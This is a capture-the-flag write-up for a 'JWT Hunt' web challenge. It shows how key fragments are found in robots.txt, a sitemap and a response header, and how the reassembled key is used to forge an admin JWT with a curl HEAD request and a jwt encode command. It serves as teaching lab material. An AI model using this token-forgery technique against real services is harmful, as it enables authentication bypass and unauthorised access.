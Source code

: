 ```yaml
---
title: "JWT Hunt – Iron CTF 2024"
date: 2024-04-23  
category: Web / JWT  
platform: Iron CTF 2024  
author: Vaishnav Baraskar
tags: ["CTF", "Iron CTF", "JWT", "Web Security", "Token Manipulation", "Authentication Bypass", "CTF 2024", "Challenge Writeup", "Vaishnav Baraskar"]
---
```


## 0x00 – Prologue

I like JWT bugs. They're like puzzles where you know someone somewhere made a careless design call, and you just have to figure out where the glue fell apart. In this one, the challenge was called "JWT Hunt" and it lived up to the name. Turns out the devs had split the signing key into four parts and sprinkled them around the site like cryptographic breadcrumbs.

A few hours later, I was forging admin tokens like I owned the backend. Let's get into it.

---

## 0x01 – Reconnaissance

First up, I hit the site and did what any sane person would: popped open DevTools and opened `robots.txt`.

Boom:

```txt
/User-agent: *
/secret-key-1.txt
/hidden-directory/
/sitemap.xml
```

Visiting `/secret-key-1.txt` directly:
```txt
IRONCTF{part1_xxxxxxxx}
```

Inside `/sitemap.xml`:
```xml
<url>
  <loc>https://ironctf.io/hidden-directory/secret-key-2.txt</loc>
</url>
```

Sure enough:
```txt
IRONCTF{part2_yyyyyyyy}
```

Then within that `hidden-directory`, another file was just sitting around:
```txt
IRONCTF{part3_zzzzzzzz}
```

Okay. So far so good. 3 parts of the key just laying around. But something was still missing. There had to be a fourth piece.

---

## 0x02 – The Fourth Piece

Now here's where things got annoying. Trying to access `/final-key-piece.txt` gave:
```txt
400 Bad Request
```

Regular GET requests failed. But when I used a `HEAD` request:
```bash
curl -I https://ironctf.io/final-key-piece.txt
```

I got back a `200 OK`. Which was strange. So I used Burp Suite to replay with a `HEAD`, and sure enough, the headers showed:
```http
X-Key-Part: IRONCTF{part4_aaaaaaaa}
```

It wasn’t even in the body. It was a custom header.

Sneaky. But now I had all four segments:
```txt
part1_xxxxxxxx
part2_yyyyyyyy
part3_zzzzzzzz
part4_aaaaaaaa
```

I stitched them together manually:
```txt
secret = "xxxxxxxxyyyyyyyyzzzzzzzzaaaaaaaa"
```

---

## 0x03 – Cracking the JWT

Now I grabbed my session token:
```txt
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9....
```

And decoded it:
```json
{
  "user": "guest",
  "admin": false
}
```

Standard HMAC-SHA256 signed JWT. I plugged the reconstructed key into [jwt.io](https://jwt.io) and tried verifying the signature. It worked. Signature verified.

Now it was time to forge:
```json
{
  "user": "admin",
  "admin": true
}
```

Resigned with the key:
```bash
jwt encode --secret xxxxxxxx... --alg HS256 '{"user":"admin","admin":true}'
```

Copied that into my Authorization header.

Refreshed the page...

---

## 0x04 – Flag

Immediately redirected to `/admin`:
```txt
Welcome back, admin.
Flag: ironCTF{W0w_U_R34lly_Kn0w_4_L07_Ab0ut_JWT_3xp10r4710n!}
```

---

## 0x05 – Tools Used

- curl / Burp Suite / HTTPie
- jwt.io and `jsonwebtoken` in Node.js
- Bash one-liners and grep
- Chrome DevTools

---

## 0x06 – Takeaways

- `robots.txt` and `sitemap.xml` can be goldmines
- HTTP headers like `X-*` can leak secrets
- Don’t split secret keys and expect them to stay secret
- Always try HEAD if GET fails
- If you can verify a JWT, you can likely forge it

---

## 0x07 – Final Thoughts

This was fun because it chained together a bunch of small things: endpoint enumeration, HTTP method abuse, and token forgery. And every piece was just... lying around.

Sometimes, the real vuln is just devs thinking obscurity equals security.

---

